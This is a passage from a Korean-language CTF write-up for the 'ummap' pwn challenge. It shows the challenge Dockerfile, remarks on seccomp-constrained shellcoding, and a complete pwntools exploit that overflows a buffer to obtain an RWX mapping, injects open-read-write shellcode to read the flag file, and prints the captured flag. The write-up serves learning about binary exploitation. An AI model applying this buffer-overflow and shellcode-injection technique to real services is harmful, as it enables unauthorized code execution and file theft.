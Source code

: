 이때, seccomp rule에 유의해서 쉘 코딩을 해야 하는데, 지금 보니까 굳이 ORW를 안 해도 execveat syscall로 쉘을 딸 수 있었을 것 같다.

```dockerfile
FROM ubuntu:22.04@sha256:35fb073f9e56eb84041b0745cb714eff0f7b225ea9e024f703cab56aaa5c7720
RUN apt-get update && apt-get install -y socat
RUN adduser ummap
COPY ./deploy/* /home/ummap/
WORKDIR /home/ummap
RUN chmod 644 /home/ummap/flag
RUN chmod 755 /home/ummap/ummap
USER ummap
EXPOSE 9003
CMD socat TCP-LISTEN:9003,reuseaddr,fork EXEC:./ummap,stderr
```

플래그 주소를 `Dockerfile`에서 확인할 수 있으므로, ORW 쉘 코드를 삽입해서 플래그를 얻어내면 된다.


### **[0x03] 익스플로잇**

```python
from pwn import *
if args.REMOTE:
    p = remote("prob.layer7.kr", 13001)
else:
    p = process("./ummap", aslr=0)

context(arch='amd64', os='linux')
pay=pwnlib.shellcraft.open('/home/ummap/flag')
pay+=pwnlib.shellcraft.read('rax', 'rsp', 0x100)
pay+=pwnlib.shellcraft.write(1, 'rsp', 0x100)

# 1. alloc with RWX (prot - 7)
payload = b'A'*0x18
payload += p32(0x1000)
payload += p32(7)[:3]
p.sendlineafter(b"> ", b'1')
p.sendlineafter(b": ", payload)
p.recvuntil(b"at ")
addr = int(p.recvuntil(b" "),16)
log.success(f"mmapped addr @ {hex(addr)}")

# 2. write shellcode
p.sendlineafter(b"> ", b'2')
p.send(asm(pay))

# 3. execute shellcode
p.sendlineafter(b"> ", b'4')
p.sendafter(b"\n", b'A'*0x48 + p64(addr))

p.interactive()
```

`Layer7{d0_Y0U_kn0w_480U7_mM4P?}`
